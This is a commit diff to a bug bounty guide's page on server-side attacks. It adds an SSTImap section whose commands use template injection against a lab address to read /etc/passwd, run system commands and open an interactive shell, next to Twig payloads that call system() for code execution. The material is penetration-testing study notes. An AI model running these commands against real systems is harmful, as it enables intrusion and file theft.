

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/server-side-attacks.md, in a window 1280 px wide and 900 px high, scrolled down 3687 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
edit ssti section to server side attacks page

````diff
--- a/docs/bug-bounty-guide/server-side-attacks.md
+++ b/docs/bug-bounty-guide/server-side-attacks.md
@@ -89,7 +89,7 @@ Templating Engines are used to dynamically generate content.
 - Follow the below tree looking to find when payload is executed successfully i.e. 7*7 returns 49.
 - {{7*'7'}} will be 7777777 in Jinja, while in Twig, the result will be 49.
 
-![Identifying Template Engine](..\images\identify-template.png)
+![Identifying Template Engine](../images/identify-template.png)
 
 ### Jinga(python)
 
@@ -109,6 +109,22 @@ Templating Engines are used to dynamically generate content.
 | `{{ ['id'] \| filter('system') }}` | RCE using twigs `filter()` function to pass arguments to `system` the built-in PHP function |
 
 [Payload all the things cheat sheet for other templates](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
+
+### SSTImap
+
+- For identifying and exploiting SSTI attacks
+- https://github.com/vladko312/SSTImap
+
+```bash
+git clone https://github.com/vladko312/SSTImap
+cd SSTImap
+pip3 install -r requirements.txt
+python3 sstimap.py
+python3 sstimap.py -u http://172.17.0.2/index.php?name=test # Provide target URL to identify SSTI
+python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd' # Download remote file to local machine
+python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id # Execute system commands
+python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell # Obtain interactive shell
+```
 
 
 ## SSI Injection - Directives
````
